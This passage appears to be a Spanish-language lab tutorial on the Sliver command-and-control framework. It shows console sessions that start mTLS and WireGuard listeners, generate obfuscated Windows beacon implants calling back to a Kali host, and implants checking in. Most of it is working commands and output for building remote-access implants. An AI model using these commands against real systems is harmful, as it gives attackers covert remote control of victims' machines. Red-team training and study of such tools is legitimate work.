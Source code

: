 ```bash

[*] Beacon d04b048f WONDERFUL_SUNBONNET - n/a (DESKTOP-0AHIE2G) - windows/amd64 - Sat, 10 Jun 2023 19:07:20 EDT
```

Se puede pasar también una dirección con nuestro server DNS, y por si llega a fallar la conexión o el servidor dns está caído podemos pasarle la dirección ip aparte.

```bash
sliver > mtls

[*] Starting mTLS listener ...

[*] Successfully started job #1

sliver > jobs

 ID   Name   Protocol   Port 
==== ====== ========== ======
 1    mtls   tcp        8888 

sliver >  generate beacon --os windows --arch amd64 --format exe --save /home/kali/Desktop/dns-beacon.exe --seconds 5 --mtls kali.dnstest.local,192.168.1.12

[*] Generating new windows/amd64 beacon implant binary (5s)
[*] Symbol obfuscation is enabled
[*] Build completed in 25s
? Overwrite existing file? Yes
[*] Implant saved to /home/kali/Desktop/dns-beacon.exe

[*] Beacon f40b0b34 FRIENDLY_CATTLE - 192.168.1.11:54656 (DESKTOP-0AHIE2G) - windows/amd64 - Fri, 09 Jun 2023 22:25:53 EDT
```



#### Wireguard

Aparte de **mtls** podemos usar el protocolo wireguard.

```bash
sliver > wg

[*] Starting Wireguard listener ...
[*] Successfully started job #2

sliver > jobs

 ID   Name   Protocol   Port 
==== ====== ========== ======
 1    mtls   tcp        8888 
 2    wg     udp        53   

sliver > generate beacon --wg kali.dnstest.local --arch amd64 --os windows --format exe --save /home/kali/Desktop/wg-dns-beacon.exe --seconds 5

[*] Generated unique ip for wg peer tun interface: 100.64.0.7
[*] Generating new windows/amd64 beacon implant binary (5s)
[*] Symbol obfuscation is enabled
[*] Build completed in 32s
[*] Implant saved to /home/kali/Desktop/wg-dns-beacon.exe

```
